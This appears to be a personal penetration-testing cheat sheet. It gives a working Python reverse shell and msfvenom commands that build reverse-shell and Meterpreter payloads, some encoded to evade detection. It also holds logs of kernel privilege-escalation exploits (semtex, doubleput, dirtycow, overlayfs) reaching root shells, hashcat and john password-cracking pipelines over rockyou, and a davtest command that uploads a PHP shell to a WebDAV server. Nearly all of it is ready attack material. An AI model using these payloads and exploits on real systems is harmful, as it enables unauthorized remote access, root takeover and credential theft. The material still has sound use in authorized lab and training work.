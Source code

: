 # notes

## python reverse shell
(redirect stdin, stdout, stderr to open socket)  
import socket,subprocess,os,sys  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect((sys.argv[1],int(sys.argv[2])))  
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2)  
p=subprocess.call(["/bin/sh","-i"])  

## msfvenom payloads I've used
msfvenom -p cmd/unix/reverse_bash lhost=172.16.3.1 lport=4123 R > shell.sh  
msfvenom -p php/meterpreter_reverse_tcp LHOST=172.16.3.1 LPORT=4123 -f raw > shell.php  
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=172.16.3.3 LPORT=4444 -e x86/shikata_ga_nai -b '\x00\x0a\x0d\x26' -f python --smallest  

## hashcat
store cracks in a different potfile:  
hashcat --potfile-path hashcat.pot -m 1000 -a 0 hashes.txt ~/wordlists/rockyou.txt  

## old centos
bash-4.1$ /usr/bin/gcc -O2 semtex.c -o semtex  
/usr/bin/gcc -O2 semtex.c -o semtex  
bash-4.1$ chmod +x semtex  
chmod +x semtex  
bash-4.1$ ./semtex  
./semtex  
2.6.37-3.x x86_64  
sd@fucksheep.org 2010  
-sh-4.1#  

## Linux kernel 4.4 < 4.5.5 w/CONFIG_BPF_SYSCALL
www-data@dolphin:/tmp$ ./doubleput  
./doubleput  
starting writev  
woohoo, got pointer reuse  
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.  
suid file detected, launching rootshell...  
we have root privs now...  
root@dolphin:/tmp#  

## dirtycow
bash-4.2$ ./cowroot  
./cowroot  
id  
uid=0(root) gid=48(apache) groups=0(root),48(apache)  

## overlayfs
$ gcc overlayfail.c -o overlayfail  
$ ./overlayfail  
root@vps1723:/tmp#  

## awk
awk '{print "admin:XAMPP with WebDAV:" $0}' /usr/share/wordlists/rockyou.txt | john hashes.txt --format=raw-md5 --pipe  
select all the 4-char passwords and send to hashcat:  
awk 'length($0)==4' ~/wordlists/rockyou.txt | hashcat -m 3200 -a 0 --potfile-disable temp.txt  

## john
awk '{print "admin:XAMPP with WebDAV:" $0}' /usr/share/wordlists/rockyou.txt | john hashes.txt --format=raw-md5 --pipe  

## webdav
davtest -url http://10.13.1.146/webdav -auth admin:s3cr3t -uploadfile shell.php -uploadloc shell.php  
